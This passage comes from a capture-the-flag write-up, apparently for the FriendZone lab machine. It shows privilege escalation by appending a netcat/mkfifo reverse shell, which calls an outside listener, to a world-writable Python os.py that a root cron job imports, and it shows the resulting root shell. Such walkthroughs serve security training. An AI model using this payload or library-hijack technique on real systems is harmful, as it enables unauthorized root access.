 ```
```

### Privesc

`/opt/server_admin` contains a `reporter.py` script that probably runs every minutes in a root owned cronjob:

```
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

I can confirm it's running in a cronjob by using pspy:

![](/assets/images/htb-writeup-friendzone/pspy.png)

The script doesn't really do anything except import the standard `os` module.

Looking at the module definition, I see that the permissions are world writable on the one for Python 2.7:

```
friend@FriendZone:/opt/server_admin$ find /usr -name os.py 2>/dev/null
/usr/lib/python3.6/os.py
/usr/lib/python2.7/os.py
friend@FriendZone:/opt/server_admin$ ls -l /usr/lib/python2.7/os.py
-rwxrwxrwx 1 root root 25910 Jan 15 22:19 /usr/lib/python2.7/os.py
friend@FriendZone:/opt/server_admin$ ls -l /usr/lib/python3.6/os.py
-rw-r--r-- 1 root root 37526 Sep 12 21:26 /usr/lib/python3.6/os.py
```

I can modify the `os.py` file and add a reverse shell at the end so when the module is imported by the script it'll execute my reverse shell.

```
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 5555 >/tmp/f")
```

A few moments later I get a shell as root:

```
# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.123] 60168
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
b0e6c6...
```